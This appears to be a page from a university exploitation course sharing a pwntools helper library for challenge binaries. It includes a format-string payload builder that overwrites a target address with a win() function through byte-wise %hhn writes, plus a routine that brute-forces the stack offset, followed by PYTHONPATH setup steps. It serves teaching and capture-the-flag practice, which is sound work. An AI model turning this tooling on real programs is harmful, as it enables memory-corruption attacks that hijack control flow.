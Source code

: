 <style>#downloads { display: none !important; }</style>

```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd="continue"):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvt', '-e', 'sh', '-c']

    # can be disabled, removes a lot of the annoying output
    context.log_level = 'error'

    if args.REMOTE:
        p = remote('comp6447.wtf', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end):
    p.recvuntil(start)
    return p.recvuntil(end, drop=True)

def pack(msg):
    return bytes(str(msg), 'utf-8')

# overwrites the address at target() with win().
# offset specifies which stack variable you control %{target}$n 
# padding specifies required padding to align the input in the stack variable (one of [0,1,2,3])
def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload

def fmtstr_offset(binary, after, padding=0):
    for i in range(1, 20):
        p = process(binary)

        p.sendlineafter(after, f'{b"A" * padding}AAAA%{i}$x'.encode())
        output = p.recvline().decode('utf-8')

        p.close()

        if '41414141' in output:
            return i
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.

Finally, you can include this library into your programs with
```python
from lib import *
```